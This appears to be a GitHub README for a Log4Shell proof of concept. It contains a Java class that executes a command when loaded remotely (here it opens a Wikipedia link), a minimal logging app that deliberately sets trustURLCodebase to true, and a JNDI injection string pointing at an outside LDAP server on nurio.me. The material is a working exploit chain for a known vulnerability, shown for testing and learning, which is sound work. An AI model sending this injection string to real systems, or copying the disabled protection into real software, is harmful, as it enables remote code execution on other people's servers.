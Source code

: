 # Simple Log4Shell LDAP server

## Exploit class to execute it remotly
```java
public class Magic {
  static {
    try {
      // Execute the `open` command to open a funny wikipedia link.
      String[] cmds = { "open", "https://en.wikipedia.org/wiki/Ostrich_algorithm" };
      Runtime.getRuntime().exec(cmds).waitFor();
    } catch (Exception e) {
      e.printStackTrace();
    } 
  }
}
```

## Minimum vulnerable application
```java
public class Log4j {

    private static final Logger logger = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // Log4Shell will not be able to load remote code from untrusted code bases since the Java 8 version.
        // This statement will disable that security path to be able to test it on Java 8 and higher.
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

        Scanner scanner = new Scanner(System.in);
        while (true) {
            System.out.println("Introduce a message to log:");
            String line = scanner.nextLine();
            logger.error(line);
        }
    }

}
```

## Vulnerable message example

You will need to replace the `nurio.me` domain to your LDAP server, for local development it could be `localhost`.
```
${jndi:ldap://nurio.me:1389/a}
```
